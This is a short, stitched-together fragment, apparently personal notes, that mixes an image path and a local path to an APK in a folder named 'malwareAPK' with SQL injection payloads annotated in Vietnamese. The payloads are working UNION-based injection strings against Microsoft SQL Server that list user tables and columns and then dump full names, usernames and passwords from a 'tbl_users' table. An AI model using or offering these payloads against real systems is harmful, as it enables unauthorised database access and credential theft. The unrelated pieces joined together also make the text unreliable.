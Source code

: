 /home/erik/Documents/malwareAPK/Google-play.apk

sys.objects sys.tables sys.columns 
sss%' union select '', name, object_id from sys.objects where type='u' -- 
Tìm các cột của bang tbl_users 
sss' union select '', name, 0 from sys.columns where object_id = 2105058535 -- 

Đọc tất cả các cột của các bang: sss%' union select a.name, b.name, 0 from sys.objects a inner join sys.columns b on a.object_id = b.object_id where a.type='u' -- 

Lấy dữ lieu từ bang tbl_users: sss' union select Full_name, username+'-'+password, account_id from tbl_users -- 
